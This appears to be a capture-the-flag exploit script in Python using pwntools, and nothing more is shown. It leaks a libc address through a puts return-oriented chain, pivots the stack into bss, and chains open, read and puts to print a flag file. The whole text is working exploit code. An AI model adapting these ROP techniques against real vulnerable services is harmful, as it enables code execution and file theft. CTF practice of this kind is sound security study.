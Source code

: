 ```python
    main = elf.symbols['main']
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    readPlt = elf.plt['read']

    def delay():
        if lo & 2:
            pause()
        else:
            sleep(0.5)

    # leak libc and return to main
    sh.sendline(b'0'*0x38 + p64(rdi) + p64(putsGot) + p64(putsPlt) + p64(main))
    delay()

    puts = u64(sh.recvline(False) + b'\0\0')
    libcBase = puts - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libcBase: {hex(libcBase)}'))
    gadgets = ROP(libc)
    openLibc = libcBase + libc.symbols['open']
    rsi = libcBase + gadgets.rsi.address
    rdx = libcBase + gadgets.rdx.address
    flagBss = 0x404100

    # read to bss and then stack pivot to there
    sh.sendline(b'0'*0x30 + p64(flagBss) + p64(rsi) + p64(flagBss) + p64(rdx) + p64(0x100) + p64(readPlt) + p64(leave))
    delay()

    # do orw to output the flag
    sh.sendline(b'flag'.ljust(8, b'\0') + p64(rdi) + p64(flagBss) + p64(rsi) + p64(0) + p64(openLibc) +
                p64(rdi) + p64(3) + p64(rsi) + p64(flagBss + 0x100) + p64(rdx) + p64(0x100) + p64(readPlt) +
                p64(rdi) + p64(flagBss + 0x100) + p64(putsPlt) + p64(main)) # leave main at last to avoid pipe closing

    success(f'Get FLAG: {sh.recvline(False).decode()}')
    sh.close()
```
